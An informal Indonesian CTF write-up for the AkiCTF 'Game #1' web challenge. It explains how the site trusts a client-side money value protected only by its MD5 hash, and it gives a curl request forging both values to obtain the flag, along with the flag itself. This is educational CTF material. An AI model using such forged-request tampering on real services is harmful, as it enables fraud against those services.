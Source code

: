 ```yaml
---
layout: post
title: "Writeup AkiCTF"
description: "Writeup AkiCTF"
headline: 
modified: 2016-11-09
imagefeature: 
mathjax: 
chart: 
category: akictf
comments: true
featured: false
---
```


## Writeup AkiCTF

ini sebenernya ctf yang udah lama kayaknya ini mulai pas tahun 2013, tapi 
challenge nya menurut gw masih legit buat di cobain link nya di sini [AkiCTF](http://ctf.katsudon.org/)


### Game #1 - 70 Points

Deskripsi soal nya gak ada sama sekali, kita cuma di kasih link [q6.ctf](http://q6.ctf.katsudon.org)

Dari website nya kita bisa liat di situ ada game RPS(rock, papper,scissor) dan di bagian bawahnya ada 
rangking yang kalau sepertinya kalau duit kita cukup untuk beli ranking nya flagnya bakal muncul

view pagesource nya kita bisa liat di situ ada kode javascript berikut :

``` javascript 

<script>
    $(function() {
        var d = $("#h"),     // id h 
            c = $("#money"), // duit kita diambil dari sini
            b = $("#message"); // id message 
        
        $("#jankenForm").submit(function() { // kalau form RPS nya kita submit
            0 < c.text() && $.post("/janken", { // kirim post 
                h: d.val(), // parameter h di ambil dari variable d.val()
                money: c.text() // parameter money di ambil dari c.text
            }).done(function(a) { 
                a.error ? b.text("error") : (d.val(a.h), c.text(a.money), b.text(a.message))
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        });
        
        $("#registerForm").submit(function() {
            $.post("/register", {
                h: d.val(),
                money: c.text()
            }).done(function(a) {
                a.error ? b.text("error") : b.text(a.message)
            }).fail(function() {
                b.text("Oops... Try again later.")
            });
            return !1
        })
    });
</script>
```

kalau kita liat javascriptnya dia kan ambil money langsung dari #money tapi kalau kita ganti
misalnya inspect element jadi 99999999 terus kita coba register bakal output nya jadi error
kenapa? karena pas di post ada 2 parameter yang di lempar selain parameter money, yaitu parameter h 

isi variable h adalah md5 `d3d9446802a44259755d38e6d163e820 = 10` jadi yang di kirim di parameter h adalah
hash md5 dari money yang nanti bakal di validasi lagi di server nya jadi untuk ngecoh validasinya
kita modifikasi #money sama value dari h

jadi kita bisa langsung kirim ke register dan atur duitnya sesuka kita : 
`curl 'http://q6.ctf.katsudon.org/register' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' --data 'h=c8c605999f3d8352d7bb792cf3fdb25b&money=999999999' --compressed`

flag bakal muncul di response nya 
`{"message":"Congrats! The flag is "YIPPEE"."}`